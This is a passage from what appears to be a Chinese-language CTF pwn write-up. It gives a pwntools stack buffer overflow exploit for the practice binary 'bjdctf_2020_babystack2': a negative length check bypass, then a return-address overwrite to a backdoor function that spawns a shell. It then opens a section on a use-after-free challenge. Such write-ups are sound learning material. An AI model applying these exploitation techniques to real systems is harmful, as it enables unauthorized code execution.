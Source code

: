 ```
from pwn import *
p = process('./bjdctf_2020_babystack2') 
backdoor = 0x400726
offset = 0x10
payload = b'A' * offset + p64(0xdeadbeef) + p64(backdoor)

p.sendline(str(-1).encode())
p.sendline(payload)
p.interactive() 
```

运行即可getshell

![](img/53267675f8991ce7f66fd63bf2a93996.png)

# 0x02A.hitcontraining_uaf - UAF + fastbin double free

~~漏洞直接在题目名称里说明了事UAF~~

惯例的`checksec`，发现只开了栈不可执行保护

![](img/d07e65d29cbd606ee927d49fc2a90cf2.png)
